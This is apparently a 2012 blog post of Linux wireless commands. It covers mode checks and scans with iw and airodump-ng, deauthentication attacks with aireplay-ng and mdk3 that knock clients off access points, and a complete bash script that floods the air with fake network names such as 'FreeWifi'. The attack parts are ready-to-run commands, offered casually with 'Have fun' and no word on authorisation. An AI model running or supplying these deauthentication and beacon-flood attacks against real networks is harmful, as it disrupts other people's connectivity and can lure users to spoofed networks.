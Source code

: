﻿---
title:  Wireless Fun with Aircrack and Others
date:   2012-11-05 00:00:00 -0500
categories: IT
---

A short list of some things you can do with wireless on a linux box. Have fun.

***Determine Modes your NIC is capable of.***

```bash
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```

***Passive Scan (Should not generate any frames)***

```bash
iw dev wlan0 scan passive | grep SSID
```

***Active Scan***

```bash
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```

***Deauthorization***

```bash
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

***Deauthorization with ***MDK3***

```bash
airmon-ng start wlan0
dk3 mon0 d
```

or

```bash
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```

or

```bash
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist```
***Broadcast Network Names with MDK3***
```bash
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```

- b - beacon flood mode
- c - channel
- f - text file with ssid names

Everything you need to run a beacon flood in one script.

```bash
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```

- <a href="http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" target="_blank">8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information</a>
- <a style="text-decoration: underline;" title="airplay-ng Deauthentication" href="http://www.aircrack-ng.org/doku.php?id=deauthentication" target="_blank">aircrack-ng Deauthorize</a>
- <a href="http://www.aircrack-ng.org/doku.php?id=airmon-ng" target="_blank">airmon-ng</a>
- <a href="http://www.linuxcommand.org/man_pages/iwconfig8.html" target="_blank">iwconfig man page</a>
- <a href="http://wireless.kernel.org/en/users/Documentation/iw" target="_blank">iw command info</a>
